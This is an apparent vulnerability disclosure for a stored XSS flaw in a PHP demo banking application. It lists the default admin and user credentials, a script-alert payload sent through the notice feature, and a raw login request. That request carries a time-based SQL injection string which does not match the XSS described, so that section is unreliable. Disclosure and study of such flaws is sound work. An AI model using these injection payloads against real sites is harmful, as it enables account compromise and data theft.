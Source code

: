 # Online Bank Management System - Stored Cross-Site Scripting(XSS)

#### Exploit Title: Online Bank Management System - Stored Cross-Site Scripting

#### Exploit Author: [webraybtl@webray.com.cn](mailto:webraybtl@webray.com.cn) inc

#### Vendor Homepage: https://www.sourcecodester.com/php/15373/online-banking-management-system-php-free-source-code.html

#### Software Link:https://www.sourcecodester.com/download-code?nid=15373&title=Online+Bank+Management+System+in+PHP+Free+Source+Code

#### Version: Online Bank Management System 1.0

#### Tested on: Windows Server 2008 R2 Enterprise, Apache ,Mysql

#### Description

Persistent XSS (or Stored XSS) attack is one of the three major categories of XSS attacks, the others being Non-Persistent (or Reflected) XSS and DOM-based XSS. In general, XSS attacks are based on the victim’s trust in a legitimate, but vulnerable, website or web application.Online Bank Management System does not filter the content correctly at the "notice" parameter, resulting in the generation of stored XSS.

#### Payload used:

```POST /login.php HTTP/1.1
Host: 192.168.67.14:8089
Content-Length: 95
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.67.14:8089
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/102.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.67.14:8089/login.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

email=manager%40manager.com&password=1'and 1=2 union select 1,sleep(10),3,4,5 --+&managerLogin=
```

#### Proof of Concept

1、Login CMS with administrator account. username: manager@manager.com Password: manager

2、Send a notification to Ali Khan with the content- `<script>alert("XSS")</script>`

![alikhan](D:\cves\php-bank\images\alikhan.png)

![xsspayload](D:\cves\php-bank\images\xsspayload.png)

3、Log in to Ali Khan account after sending successfully, and find that the pop-up window is successful username: some2@gmail.com Password: some2

![userlogin](D:\cves\php-bank\images\userlogin.png)



![userxss](D:\cves\php-bank\images\userxss.png)

5、Click View Notice to trigger again.



![viewnotice](D:\cves\php-bank\images\viewnotice.png)